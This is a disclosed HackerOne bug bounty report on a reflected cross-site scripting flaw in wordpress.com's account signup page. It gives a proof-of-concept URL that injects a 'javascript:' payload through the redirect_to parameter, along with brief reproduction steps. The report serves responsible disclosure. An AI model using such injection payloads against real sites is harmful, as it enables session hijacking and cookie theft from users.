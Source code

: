 # reflected xss in https://wordpress.com/start/account/user

## Report Details
- **Report ID**: 2055132
- **URL**: https://hackerone.com/reports/2055132
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-07T15:28:52.463Z
- **Disclosed**: 2023-11-15T11:22:58.648Z

## Reporter
- **Username**: secureighty
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:
xss after login at https://wordpress.com/start/account/user?variationName=free&redirect_to=javascript:alert(document.domain)

## Platform(s) Affected:
web

## Steps To Reproduce:

  1. auth normally
  1. go to https://wordpress.com/start/account/user?variationName=free&redirect_to=javascript:alert(document.domain) **while already authenticated** and click continue
  1. xss procs

## Supporting Material/References:

█████

## Impact

XSS can be used to steal cookies, modify html content, and much more

## Attachments
No attachments

